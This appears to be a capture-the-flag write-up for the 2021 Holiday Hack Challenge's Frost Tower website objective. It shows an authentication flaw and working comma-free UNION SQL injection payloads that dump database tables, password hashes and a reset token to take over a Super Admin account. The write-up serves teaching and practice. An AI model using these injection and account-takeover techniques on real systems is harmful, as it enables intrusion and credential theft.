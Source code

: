 <h1 id="objective-12-frost-tower-website-checkup">Objective 12: Frost Tower Website Checkup</h1>
<p><strong>Location: Studio, Frost Tower, 16<sup>th</sup> Floor, <a href="https://staging.jackfrosttower.com/">https://staging.jackfrosttower.com/</a></strong><br>
<strong>Troll: Ingreta Tude</strong><br>
<strong>Hints provided by Ribb Bonbowford after completion of <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Elf%20Code%20Python.md">Elf Code Python</a></strong></p>
<p>This objective is to perform a security assessment of the Frost Tower website with the <a href="https://download.holidayhackchallenge.com/2021/frosttower-web.zip">source code</a> being provided.<br>
It has to be found, which job position Jack Frost plans to offer Santa on his todo list.</p>
<h3 id="auth-flaw">Auth flaw</h3>
<p>The application tracks the user’s session in <code>session</code> (login name, user’s role etc.).<br>
It was found that a valid session is also set, if you complete the <a href="https://staging.jackfrosttower.com/contact">contact form</a> whilst the email address is already captured in the database. So you could just register twice to get a valid user session for an unprivileged user.</p>
<pre><code>app.post('/postcontact', function(req, res, next){
[...]
        var rowlength = rows.length;
        if (rowlength &gt;= "1"){
            session = req.session;
            session.uniqueID = email;
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");
</code></pre>
<h3 id="sqli-flaw">SQLi flaw</h3>
<p>Using this unprivileged user session an SQLi flaw in the function to get user details could be used to retrieve more information from the database.<br>
As only caveat it has to be ensured, that the <strong>comma character has to be avoided</strong> in the SQL statement as the application splits up the query at the commas.<br>
Furthermore it is important to note that “union” requires that the <strong>number of columns on both sides match</strong>.</p>
<p>This URL is the base for all following SQLi attacks:</p>
<pre><code>https://staging.jackfrosttower.com/detail/461,id union
</code></pre>
<p>During research a <a href="https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/">very good explanation</a> about how to avoid commas in SQL statements and how to get to the right amount of columns was found and the attacks outlined below follow exactly this approach.</p>
<h3 id="getting-access-to-jack-frosts-todo-list">Getting access to Jack Frosts todo list</h3>
<p>We can obtain a list of all interesting tables in the MySQL database using this SQL statement:</p>
<pre><code>select * from information_schema.tables;
</code></pre>
<p>Rewritten for our SQLi flaw:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select F.3 from (select * from (select 1)i1 join (select 2)i2 join (select 3)i3 join (select 4)i4 join (select 5)i5 join (select 6)i6 join (select 7)i7 join (select 8)i8 join (select 9)i9 join (select 10)i10 join (select 11)i11 join (select 12)i12 join (select 13)i13 join (select 14)i14 join (select 15)i15 join (select 16)i16 join (select 17)i17 join (select 18)i18 join (select 19)i19 join (select 20)i20 join (select 21)i21 join (select 22)i22 join (select 23)i23 union select * from information_schema.tables)F)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>This reveals, that in addition to the tables “emails” and “uniquecontact”, which are known as they are used in the application, there is an additional table “todo”, which seems to be the todo list we need access to.</p>
<p>Using the SQL statement</p>
<pre><code>select * from information_schema.columns where table_name="todo"
</code></pre>
<p>the list of columns in the table “todo” can be obtained, rewritten for the SQLi:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select F.4 from (select * from (select 1)i1 join (select 2)i2 join (select 3)i3 join (select 4)i4 join (select 5)i5 join (select 6)i6 join (select 7)i7 join (select 8)i8 join (select 9)i9 join (select 10)i10 join (select 11)i11 join (select 12)i12 join (select 13)i13 join (select 14)i14 join (select 15)i15 join (select 16)i16 join (select 17)i17 join (select 18)i18 join (select 19)i19 join (select 20)i20 join (select 21)i21 join (select 22)i22 union select * from information_schema.columns where table_name="todo")F)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>we can see, that this table consists out of 3 columns: id, note, completed.<br>
The “note” column can then be extracted using</p>
<pre><code>select * from todo
</code></pre>
<p>Rewritten for the SQLi:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select F.2 from (select * from (select 1)i1 join (select 2)i2 join (select 3)i3 union select * from todo)F)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>This brings up Jack Frosts todo list:</p>
<ul>
<li>Buy up land all around Santa’s Castle</li>
<li>Build bigger and more majestic tower next to Santa’s</li>
<li>Erode Santa’s influence at the North Pole via FrostFest, the greatest Con in history</li>
<li>Dishearten Santa’s elves and encourage defection to our cause</li>
<li>Steal Santa’s sleigh technology and  build a competing and way better Frosty present delivery vehicle</li>
<li>Undermine Santa’s ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem</li>
<li>Force Santa to cancel Christmas</li>
<li>SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide… so the whole world sees that Frost saved the Holiday Season!!! Bwahahahahaha!</li>
<li>With Santa defeated, offer the old man a job as a <strong>clerk</strong> in the Frost Tower Gift Shop so we can keep an eye on him</li>
</ul>
<hr>
<h3 id="bonus-getting-super-admin-privileges-in-the-application">Bonus: Getting Super Admin privileges in the application</h3>
<p>Using the SQLi flaw, a full list of registered users and admins (along with password hashes and privilege levels) can be retrieved using this link:</p>
<pre><code>https://staging.jackfrosttower.com/detail/461,id%20union%20select%20*%20from%20users--
</code></pre>
<p>This contains for example:</p>
<ul>
<li>Super Admin</li>
<li>root@localhost</li>
<li>$2b<span class="katex--inline"><span class="katex"><span class="katex-mathml"><math xmlns="http://www.w3.org/1998/Math/MathML"><semantics><mrow><mn>10</mn></mrow><annotation encoding="application/x-tex">10</annotation></semantics></math></span><span class="katex-html" aria-hidden="true"><span class="base"><span class="strut" style="height: 0.64444em; vertical-align: 0em;"></span><span class="mord">10</span></span></span></span></span>JnLy8pq1fC/KrS.bn1NAOx13GzDavIOZJkuayDC7JSCNKvQUha3i</li>
<li>1</li>
<li>November 23rd, 2021 11:00:00</li>
<li>December 18th, 2021 7:05:17</li>
</ul>
<hr>
<ul>
<li>Admin</li>
<li>admin@localhost</li>
<li>$2b<span class="katex--inline"><span class="katex"><span class="katex-mathml"><math xmlns="http://www.w3.org/1998/Math/MathML"><semantics><mrow><mn>10</mn></mrow><annotation encoding="application/x-tex">10</annotation></semantics></math></span><span class="katex-html" aria-hidden="true"><span class="base"><span class="strut" style="height: 0.64444em; vertical-align: 0em;"></span><span class="mord">10</span></span></span></span></span>FTkzq07Az57M.Q8jw7ehB…h5Vdc3Vw04zQzJIt294bgwg7.aV1GC</li>
<li>2</li>
<li>December 3rd, 2021 11:00:00</li>
</ul>
<p>This shows, that we have a “Super Admin” with the email address root@localhost defined in the system.</p>
<p>Next the “<a href="https://staging.jackfrosttower.com/forgotpass">forgot password</a>” function of the application can be used to increase the privileges.<br>
When resetting the password for a user, a random token is created and stored in the user database. If we are able to get hold of this token, we can change the password of the user and have full control.</p>
<p>The token for “root@localhost” can be retrieved using this URL:</p>
<pre><code>https://staging.jackfrosttower.com/detail/-1,-id%20union%20select%20*%20from%20(select%201)a%20join%20(select%202)b%20join%20(select%203)c%20join%20(select%20F.7%20from%20(select%20*%20from%20(select%201)h%20join%20(select%202)i%20join%20(select%203)j%20join%20(select%204)k%20join%20(select%205)l%20join%20(select%206)m%20join%20(select%207)n%20union%20select%20*%20from%20users%20where%20email=%22root@localhost%22)F)d%20join%20(select%204)e%20join%20(select%20%222021-01-01%2000:00:00%22)f%20join%20(select%20%222021-01-01%2000:00:00%22)g;--
</code></pre>
<p>The timestamps in the above URL are required, as the values of these columns undergo a date conversion. This throws an exception if no valid date format is supplied:</p>
<pre><code>TypeError: /app/webpage/detail.ejs:29
    27|                             -
    28|                         &lt;% }else { %&gt;
 &gt;&gt; 29|                             &lt;%= dateFormat(encontact.date_update, "mmmm dS, yyyy h:MM:ss") %&gt;
    30|                         &lt;% } %&gt;                     
    31|                         &lt;/li&gt;
    32|                     &lt;/ul&gt;

Invalid date
    at Object.dateFormat (/app/node_modules/dateformat/lib/dateformat.js:39:17)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), &lt;anonymous&gt;:45:26)
    at Array.forEach (&lt;anonymous&gt;)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), &lt;anonymous&gt;:21:18)
    at returnedFn (/app/node_modules/ejs/lib/ejs.js:653:17)
    at tryHandleCache (/app/node_modules/ejs/lib/ejs.js:251:36)
    at View.exports.renderFile [as engine] (/app/node_modules/ejs/lib/ejs.js:482:10)
    at View.render (/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/app/node_modules/express/lib/application.js:640:10)
    at Function.render (/app/node_modules/express/lib/application.js:592:3)
</code></pre>
<p>Using the URL <a href="https://staging.jackfrosttower.com/forgotpass/token/">https://staging.jackfrosttower.com/forgotpass/token/</a>{retrieved token} it is possible to set a new password for the “Super Admin” user.<br>
Being logged on as this user, a new personalized user with “Super Admin” privileges can be created.</p>
<p><strong>Achievement: Frost Tower Website Checkup</strong></p>

